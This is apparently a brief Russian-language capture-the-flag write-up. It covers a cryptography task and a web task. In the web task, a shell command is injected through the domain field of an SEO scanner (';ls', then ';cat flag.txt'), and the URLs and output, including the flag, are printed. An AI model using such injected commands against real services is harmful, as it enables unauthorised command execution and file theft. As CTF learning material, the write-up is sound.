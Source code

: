 ### 1 - криптография

   Решение в main.py, код шифратора в encrypt
   
   Ответ в secrets.txt, правда, кажется, там только часть флага :(

### 2 - веб

1. Пробуем ввести в поле ввода ";ls" - http://seoscan.semrush.work:8080/?domain=%3Bls
   
   Results: 
   
   BUILDING.txt CONTRIBUTING.md LICENSE NOTICE README.md RELEASE-NOTES RUNNING.txt bin conf flag.txt include lib logs native-jni-lib python-seo-analyzer-4.0.2 python-seo-analyzer-4.0.2.7z temp webapps webapps.dist work 
2. Вводим ";cat flag.txt" - http://seoscan.semrush.work:8080/?domain=%3Bcat+flag.txt
   
   Results:
   
   sem{3x3cu73_1s_v3ry_v333333ry_uns4f3} 
